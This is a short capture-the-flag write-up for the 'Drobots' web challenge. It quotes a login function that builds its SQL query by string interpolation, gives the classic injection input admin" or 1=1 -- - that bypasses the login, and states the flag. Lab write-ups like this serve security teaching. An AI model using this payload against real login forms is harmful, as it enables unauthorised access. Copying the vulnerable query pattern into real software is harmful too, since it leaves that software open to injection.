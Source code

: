 # Cyber Apocalypse 2023

## Drobots

> Pandora's latest mission as part of her reconnaissance training is to infiltrate the Drobots firm that was suspected of engaging in illegal activities. Can you help pandora with this task?
>
>  Author: [D13David](https://github.com/D13David)
>
> [`web_drobots.zip`](web_drobots.zip)

Tags: _web_

## Solution
We are presented with an login form. By looking at the source code we find the login code with a suspicious comment.
```
def login(username, password):
    # We should update our code base and use techniques like parameterization to avoid SQL Injection
    user = query_db(f'SELECT password FROM users WHERE username = "{username}" AND password = "{password}" ', one=True)

    if user:
        token = createJWT(username)
        return token
    else:
        return False
```

So we can use sql injection to pass by the login.
```
user: admin" or 1=1 -- -
password: test
```

After logging in we find the flag:
![flag](image001.png)
## Flag
HTB{p4r4m3t3r1z4t10n_1s_1mp0rt4nt!!!}